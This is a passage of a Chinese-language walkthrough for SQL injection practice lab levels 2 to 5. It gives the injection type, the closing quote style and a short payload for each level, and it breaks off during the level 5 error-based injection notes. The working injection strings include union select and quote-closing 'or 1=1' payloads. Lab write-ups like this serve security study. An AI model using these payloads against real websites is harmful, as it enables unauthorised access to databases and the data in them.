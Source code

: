 ```
//数据：
```



### less-2

#### 考点：闭合方式

#### 思路：

数字型，

**payload**

```
?id=0 union select 1,2,3 --+	//3位，数显2，3位，具体payload与第1题一样
```



### less-3

#### 考点：判断闭合方式

#### 思路：

**payload**

```
?id=0') or 1=1 --+		//成功注入，payload类似于第1题
```



### less-4

#### 考点：判断闭合方式

#### 思路：

**payload**

```
?id=0") or 1=1 --+		//成功注入，payload类似于第1题
```



### less-5

#### 考点：报错注入

#### 思路：

`?id=1`时，有报错信息，所以直接选用报错注入

floor由于报错

